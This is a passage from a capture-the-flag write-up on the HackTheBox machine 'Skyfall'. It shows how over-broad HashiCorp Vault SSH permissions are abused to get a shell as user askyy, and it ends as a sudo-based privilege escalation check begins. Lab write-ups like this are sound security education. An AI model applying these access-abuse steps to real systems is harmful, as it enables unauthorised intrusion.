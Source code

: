 Highlights of this request
```
 "ssh/creds/dev_otp_key_role" : {
	"capabilities" : [
	   "create",
	   "read",
	   "update"
	]
 },
...
"glob_paths" : {
 "ssh/" : {
	"capabilities" : [
	   "list"
	]
 },
}
```

vault has an SSH command, and it seems like we have full permissions for the dev_otp_key_role. In addition, we can list all of ssh.
```zsh
$ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role

```
Notice the admin key role, we will return to this later.

looking back at the vault commands, we can see [ssh documentation](https://developer.hashicorp.com/vault/docs/commands/ssh). Using this documentation, I can get an ssh session. Install sshpass for an easier experience. Following the documentation...
```zsh
vault ssh -role=dev_otp_key_role askyy@skyfall.htb 
```
I get user!
```bash
askyy@skyfall:~$ whoami
askyy
askyy@skyfall:~$ cat user.txt
```

# Privilege Escalation
---
Doing a standard recon of the user, I immediately notice that `sudo -l` does not ask for a password, and returns permissions
```bash
askyy@skyfall:~$ sudo -l
...
User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
